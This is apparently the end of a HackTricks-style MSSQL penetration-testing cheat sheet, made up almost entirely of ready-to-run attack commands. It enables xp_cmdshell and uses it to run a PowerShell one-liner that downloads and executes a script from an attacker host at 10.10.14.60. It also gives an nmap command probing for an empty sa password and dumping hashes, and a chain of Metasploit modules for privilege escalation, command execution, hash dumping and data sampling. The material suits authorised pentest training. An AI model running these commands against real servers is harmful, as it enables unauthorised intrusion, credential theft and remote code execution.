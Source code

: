```
3. 'advanced' turn it back on
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell 'whoami'
go




xp_cmdshell "powershell.exe -exec bypass iex(new-object net.webclient).downloadstring('http://10.10.14.60:8000/ye443.ps1')"


https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html

Entry_2:
Name: Nmap for SQL
Description: Nmap with SQL Scripts
Command: nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 {IP}

Entry_3:
Name: MSSQL consolesless mfs enumeration
Description: MSSQL enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_ping; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_enum; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use admin/mssql/mssql_enum_domain_accounts; set RHOSTS {IP}; set RPORT <PORT>; run; exit' &&msfconsole -q -x 'use admin/mssql/mssql_enum_sql_logins; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_escalate_dbowner; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_escalate_execute_as; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_exec; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_findandsampledata; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_hashdump; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_schemadump; set RHOSTS {IP}; set RPORT <PORT>; run; exit'

```
{{#include ../../banners/hacktricks-training.md}}
